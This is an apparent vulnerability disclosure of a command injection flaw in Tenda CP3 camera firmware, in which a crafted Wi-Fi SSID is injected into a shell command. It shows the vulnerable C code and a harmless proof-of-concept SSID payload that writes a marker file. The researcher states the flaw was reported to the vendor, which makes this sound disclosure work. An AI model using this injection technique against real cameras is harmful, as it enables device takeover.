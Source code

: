 
A Command Injection vulnerability has been discovered in the Tenda CP3 camera firmware (`V11.10.00.2311090948`), in the `sub_F3C8C` function of the `apollo` binary.

![](https://raw.githubusercontent.com/k3vg3n/researches/refs/heads/main/attachments/RCE_in_Tenda_CP3_camera/sub_F3C8C_vuln_code_k.png)

Vulnerable code:
````c
sprintf(s, "echo $(cat /proc/net/rtl8188fu/wlan0/survey_info | grep '%s' | awk '{print $4}')", 
(const char *)&v31[1]);
````

The `survey_info` file contains information about the nearest Wi-Fi:

![](https://raw.githubusercontent.com/k3vg3n/researches/refs/heads/main/attachments/RCE_in_Tenda_CP3_camera/survey_info.png)

Wi-Fi SSID (`v31[1]`) is inserted directly into the string, which is then executed. 
The lack of validation or escaping allows the attacker to execute arbitrary commands through the camera's connection to Wi-Fi with the malicious SSID.

Example malicious payload:
`q';echo k3vg3n>/home/poc;echo '`

Which would be interpreted as:
````c
sprintf(s, "echo $(cat /proc/net/rtl8188fu/wlan0/survey_info | grep 'q';echo k3vg3n>/home/poc;echo '' | awk '{print $4}')", 
(const char *)&v31[1]);
````

### PoC:

![](https://raw.githubusercontent.com/k3vg3n/researches/refs/heads/main/attachments/RCE_in_Tenda_CP3_camera/PoC_screenshot.png)




https://github.com/user-attachments/assets/887a889f-5c46-4ee4-8caf-ef11c9b2d9c9



**The vulnerability has already been sent to the developer.**

### Credits:

[blog.kevgen.ru](https://blog.kevgen.ru/posts/rce_in_tenda_cp3_camera/)

[@k3vg3n](https://t.me/k3vg3n)
